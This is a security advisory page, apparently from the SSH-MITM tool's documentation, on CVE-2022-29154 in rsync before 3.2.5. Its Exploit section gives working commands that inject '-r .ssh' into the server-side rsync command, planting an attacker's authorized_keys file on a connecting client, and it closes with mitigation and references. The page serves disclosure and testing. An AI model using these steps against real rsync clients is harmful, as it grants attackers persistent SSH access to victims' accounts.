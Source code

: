 :fas:`check;sd-text-success` CVE-2022-29154
===========================================

.. card::

    :bdg-warning:`CVSS N/A` NVD score not yet provided.
    ^^^
    An issue was discovered in rsync before 3.2.5 that allows malicious remote servers
    to write arbitrary files inside the directories of connecting peers.
    The server chooses which files/directories are sent to the client.
    However, the rsync client performs insufficient validation of file names.
    A malicious rsync server (or Man-in-The-Middle attacker) can overwrite arbitrary files in the
    rsync client target directory and subdirectories (for example, overwrite the .ssh/authorized_keys file).
    +++
    **Affected Software:**

    * rsync < 3.2.5

    :fas:`check;sd-text-success` integrated in `SSH-MITM <https://github.com/ssh-mitm/ssh-mitm/blob/master/sshmitm/plugins/scp/CVE202229154.py>`_

Description
-----------

rsync < 3.2.5 does not sufficiently check whether the received files match the requested files.
This can be exploited by a MitM attacker or a malicious server to slip false or additional files to the client.

There are several ways in which this vulnerability can be exploited.
In the simplest case, however, it is sufficient to modify the rsync command so that additional files are returned.

The easiest way to describe this vulnerability is to synchronize 1 file. As an example, the file "test.txt" in the user's home directory is synchronized.

.. note::

    SSH-MITM uses port 10022 by default, which is why the SSH command must be modified when using rsync.

    Also it is recommended to pass through the SSH agent so that there are no problems when using Publickey authentication.

.. code-block::

    rsync -e 'ssh -p 10022 -A' 'user@127.0.0.1:test.txt' .

As soon as rsync has connected to SSH-MITM, the command sent by rsync to the server is displayed:

.. code-block::

    rsync --server --sender -e.LsfxCIvu . test.txt

On the server the command `rsync` is then executed with the internal parameters `--server` and `--sender`.

.. note::

    The arguments to the `-e` parameter specify the functions that the client supports.
    In this case no subdirectories are synchronized.
    To synchronize also subdirectories the parameter `-r`` must be specified additionally at the server.
    This is normally passed from the client to the server. When synchronizing a single file, this parameter is normally not specified.
    Thus directories would be ignored by the server.


The command can be modified by a MitM attack or a malicious server. To do this, a call to the server-side rsync command only requires the parameters to be modified accordingly. The following command would synchronize the file "test.txt" as well as the directory ".ssh". By synchronizing the ".ssh" directory, it is possible to foist a manipulated ".ssh/authorized_keys" file on the client.

.. code-block::

    rsync --server --sender -e.LsfxCIvu . test.txt -r .ssh



Exploit
-------

On the destination server create a file called "test.txt" and a subfolder containing an authorized_keys file.

.. code-block::

    echo "testfile" > test.txt
    mkdir .ssh
    echo "PUBLIC_SSH_KEY" > .ssh/authorized_keys

Run the server and specify additional files to be requested. In this case the folder ".ssh" and the command line argument "-r" will be added to the remote rsync command.

.. code-block::

    ssh-mitm server --scp-interface CVE-2022-29154 --rsync-inject-file '-r .ssh'

Connect the client to the man in the middle server.

.. code-block::

    rsync -e 'ssh -p 10022 -A' 'user@SERVER:test.txt' .

If your rsync version is vulnerable you will reveive the file "test.txt" from the server and a folder ".ssh" containing an authorized_keys file.

.. code-block::

    $ tree -a
    .
    ├── .ssh
    │   └── authorized_keys
    └── test.txt

    1 directory, 2 files


Mitigation
----------

 When dealing with an untrusted sending host, it is safest to copy into a dedicated destination directory
 for the remote content (i.e. don't copy into a destination directory that contains files that aren't from
 the remote host unless you trust the remote host).

References:
-----------

 * https://download.samba.org/pub/rsync/NEWS#3.2.5
 * https://nvd.nist.gov/vuln/detail/CVE-2022-29154
 * https://www.openwall.com/lists/oss-security/2022/08/02/1
 * https://github.com/WayneD/rsync/commit/b7231c7d02cfb65d291af74ff66e7d8c507ee871
 * https://serverfault.com/a/1096808/611948